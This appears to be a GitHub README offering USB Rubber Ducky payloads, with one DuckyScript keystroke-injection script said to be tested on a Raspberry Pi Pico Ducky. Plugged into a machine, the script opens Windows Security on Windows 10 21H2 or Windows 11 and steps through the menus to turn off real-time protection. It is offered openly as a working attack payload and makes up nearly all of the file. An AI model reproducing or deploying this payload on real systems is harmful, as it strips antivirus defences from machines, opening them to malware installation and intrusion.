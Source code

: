 # Payloads for USB Rubber Duckys
These payloads were tested on a Raspberry Pi Pico Ducky
Code for Disabling Windows Security in Windows 10 21h2 or windows 11:


REM Copyright 2022 Invictuscode
REM Payload for Rubber Ducky USB
REM Disables Windows Security in Windows 10 21H2 or Win11
DELAY 1000
GUI s
DELAY 1000
STRING windows security
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
DOWNARROW
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
TAB
DELAY 1000
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFTARROW
DELAY 1000
SPACE
DELAY 1000
